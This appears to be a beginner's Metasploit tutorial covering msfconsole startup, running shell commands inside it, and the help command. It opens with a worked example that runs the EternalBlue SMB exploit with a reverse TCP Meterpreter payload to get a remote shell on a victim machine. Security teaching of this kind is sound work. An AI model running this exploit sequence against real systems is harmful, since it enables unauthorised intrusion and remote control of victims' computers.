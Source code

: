 
## 🔹 Example (Payload Execution)
- Exploit SMB vulnerability on Windows  
- Use a **reverse TCP shell payload**  
``` bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit
```
👉 Result: **Meterpreter session** → remote shell on victim system.

---
# Metasploit Basics Commands 

## 1. Starting Metasploit Console
- Main interface of Metasploit = `msfconsole`
- Run it on terminal:
``` bash 
msfconsole
```
- Once it starts, prompt will look like:
``` bash 
msf6 >
```
(version can be `msf5` or `msf6` depending on installation)



## 2. Running Linux Commands inside Metasploit
- You can run many Linux commands directly inside Metasploit.
- Example:
``` bash 
msf6 > ls
```
This shows current folder files.

- Example of ping:
``` bash 
msf6 > ping -c 1 8.8.8.8
```
→ Sends only 1 ping to Google DNS server (8.8.8.8).  

⚠️ Note: Some Linux features (like output redirection `>`) don’t work inside msfconsole.



## 3. Help Command
- To get help for any command:
``` bash 
msf6 > help
msf6 > help set
```
